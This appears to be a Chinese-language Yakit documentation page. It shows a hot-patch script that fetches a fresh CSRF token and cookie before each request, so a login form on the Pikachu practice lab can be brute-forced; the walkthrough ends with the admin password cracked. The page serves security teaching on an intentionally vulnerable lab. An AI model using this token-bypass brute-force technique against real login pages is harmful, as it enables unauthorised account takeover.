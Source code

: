 ```yaml
---
sidebar_position: 18
---
```


# 九、热加载场景案例：csrf token保护下的爆破
这篇文章我们将会介绍一个热加载的实际应用案例：csrf token保护下的爆破。我们以pikachu靶场为例，安装pikachu靶场后(**记得要初始化**)，我们打开如下页面：
![](/img/products/yakit/Fuzz-hotpatch-example1/1.png)

任意输入账号密码之后，使用 yakit 的 MITM 模块拦截登录请求，我们可以看到请求如下：
![](/img/products/yakit/Fuzz-hotpatch-example1/2.png)

注意到除了用户和密码之外，还存在一个token的post参数，这是一个csrf token，它主要是用来防止CSRF攻击的，但是这也给我们的爆破增加了一定的难度，因为每次爆破都需要使用一个新的token。那么在这种情况下我们应该如何爆破呢？

首先我们应该来看看token是从哪里获取的，我们继续使用 yakit 的 MITM 模块拦截请求，这次我们拦截的是直接访问该页面的GET请求，当我们将其发送到 Web FUzzer 发送请求后，可以看到其响应中存在token：
![](/img/products/yakit/Fuzz-hotpatch-example1/3.png)

接下来就是使用热加载出手了。我们很容易想到热加载中的"魔术"方法：`beforeRequest`。我们可以在请求发送前，再次发送一个GET请求来获取token值，再用这个值进行爆破，就可以绕过csrf token的保护了。

我们来看看如何实现，首先我们需要在热加载页面中编写热加载内容，代码如下：
```go
beforeRequest = func(req) {
// 发送GET请求，获取响应
rsp, _, err = poc.HTTP(`GET /vul/burteforce/bf_token.php HTTP/1.1
Host: 7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
Cache-Control: max-age=0
Referer: http://7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81/vul/csrf/csrfget/csrf_get_login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
X-Forwarded-For: 127.0.0.1
x-forwarded-for: 127.0.0.1
`)
if err != nil {
    return req
}
// 获取GET响应的Set-Cookie
cookie = poc.GetHTTPPacketHeader(rsp, "Set-Cookie")
node, err = xpath.LoadHTMLDocument(rsp)
if err != nil {
    return req
}
// 通过xpath语法获取token的值
tokenNode = xpath.FindOne(node, "//input[@name='token']")
if tokenNode == nil {
    return req
}
token = xpath.SelectAttr(tokenNode, "value")
// 替换token
req = req.ReplaceAll("__TOKEN__", token)
// 替换cookie
req = poc.AppendHTTPPacketHeader(req, "Cookie", cookie)
return req
}
```
这里我们一共做了以下几件事情：
1. 通过GET请求，拿到响应
2. 通过响应拿到Set-Cookie的值
3. 通过xpath语法获取token的值
4. 替换`__TOKEN__`为实际的token
5. 添加POST请求的Cookie为第二步中拿到的Set-Cookie，这样模拟了多个用户同时请求的情况


我们将token参数改为`__TOKEN__`，然后点击**发生请求**按钮，如图所示，显示`username or password is not exists～`而不是`csrf token error`，这证明我们已经成功获取到token了：
![](/img/products/yakit/Fuzz-hotpatch-example1/4.png)

接下来就很简单了，使用我们前面学到的 fuzztag 知识，使用 fuzztag 爆破密码，成功爆破出了admin的密码为123456：
![](/img/products/yakit/Fuzz-hotpatch-example1/5.png)

需要注意的是，我们使用了并发的技术来请求该网站，这也是我们为什么需要先从GET请求的响应中拿到Set-Cookie然后再设置POST请求的Cookie的原因，因为我们需要模拟多个用户同时请求的情况，如果是单个用户请求的话，我们需要将并发改为1。
